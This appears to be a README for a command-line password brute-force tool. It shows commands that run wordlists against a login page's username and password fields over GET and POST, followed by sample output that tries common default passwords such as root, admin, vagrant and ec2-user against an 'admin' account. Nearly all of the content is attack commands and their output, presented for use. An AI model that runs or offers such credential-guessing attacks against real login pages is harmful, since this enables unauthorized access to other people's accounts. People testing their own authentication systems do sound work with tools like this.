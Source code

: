 ### Brute Force Login using GET with Username
#### This works on HTTP Get method with username where the username is given and the password is left Blank where it is extracted from the word1.txt
```
brute -w word1.txt -t "https://forms.praveenms.site/login.php?username=admin&password=" -m GET
```

### Brute Force Login using GET with Username
#### This works on HTTP Get method without username and password where the username and password is left Blank, it is extracted from the word2.txt
```
brute -w word2.txt -t "https://forms.praveenms.site/login.php?username=&password=" -m GET
```

## Sample usage
```
➜  Praveen brute-force git:(main U:1 ✗) 🚀 brute -w word1.txt -u admin -t "https://forms.praveenms.site/login.php" -m POST
Brute Force Login
Tool By Praveen
Required Login Page URL or API Login URL Endpoint
Leave blank if you don't have, In optional cases
This module is not intended to be imported
[+] Username Provided, Username: admin, Using Username From User Input
[+] Using POST Method

Form Attributes Found:

Form 1 attributes:
  Method: POST
  Action: login.php
  Input types:
    password, text
  Input names:
    username, password
  Input names for username and password fields:
    Username input name: username
    Password input name: password
[+] Using Wordlist: word1.txt
-----------------------------------------------
Trying: admin and root ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and admin ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and test ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and guest ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and ansible ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and ec2-user ...
[+] Status Code: 401
-----------------------------------------------
Trying: admin and vagrant ...
[+] Status Code: 401
```